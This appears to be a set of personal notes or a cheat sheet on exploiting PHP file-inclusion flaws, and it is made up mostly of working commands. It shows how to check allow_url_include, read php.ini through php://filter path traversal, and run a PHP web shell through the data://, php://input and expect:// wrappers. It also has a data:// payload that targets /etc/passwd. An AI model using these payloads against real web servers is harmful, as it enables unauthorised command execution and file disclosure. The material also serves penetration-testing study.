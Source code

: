 
allow_url_include is needed for various LFI attacks and all RFI attacks

We need to check for allow_url_include

Determine if allow_url_include is enabled (X.Y for php version)
```
/etc/php/X.Y/apache2/php.ini (Apache)
/etc/php/X.Y/fpm/php.ini (Nginx)
```

Reading config file with curl
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" (Apache)

curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini"
```

### Data Wrapper


Reverse shell encoding
```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Reverse shell Payload (Can be done with curl as well)
```http
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
### Input Wrapper

(Sending data via curl)(Must accept post request)
```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

### Expect Wrapper

Allows for commands to be ran through url streams

It's an external wrapper so we must check for it (Can be found in config)
```shell-session
extension=expect
```

Passing command through url stream
```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

data://text/plain;base64,L2V0Yy9wYXNzd2QK